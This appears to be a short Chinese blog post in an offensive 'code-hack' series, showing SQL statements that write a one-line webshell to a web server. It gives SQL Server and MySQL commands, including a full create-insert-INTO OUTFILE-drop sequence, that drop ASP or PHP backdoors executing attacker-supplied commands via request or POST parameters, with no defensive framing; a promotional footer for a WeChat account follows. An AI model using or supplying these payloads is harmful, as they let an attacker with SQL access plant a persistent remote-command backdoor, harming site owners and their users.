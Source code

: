 ```yaml
---
layout: post
category: binghe-code-hack
title: SQL语句生成一句话
tagline: by CurleyG
tag: [hack,binghe-code-hack]
excerpt: SQL语句生成一句话
lock: need
---
```


# SQL语句生成一句话

**SQLServer执行SQL语句生成一句话**

```sql
select '<%execute request("a")%>' into [NB_master] in 'd:\wwwroot\x.asp;a.xls''excel 8.0;' from NB_master;
```

NB_master必须是已经存在的表

**MySQL执行SQL语句生成一句话**

```sql
select "<?php @system($_POST["cmd"]);?>" into outfile "/home/webaccount/projectname/www/*.php";
```

**完整执行如下：**

```sql
create table a (cmd text not null);
insert into a(cmd) values('<?php eval($_POST[cmd]);?>');
select cmd from a into outfile '网站可写路径/一句话马名.php';
drop table if exists a;
```

## 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)
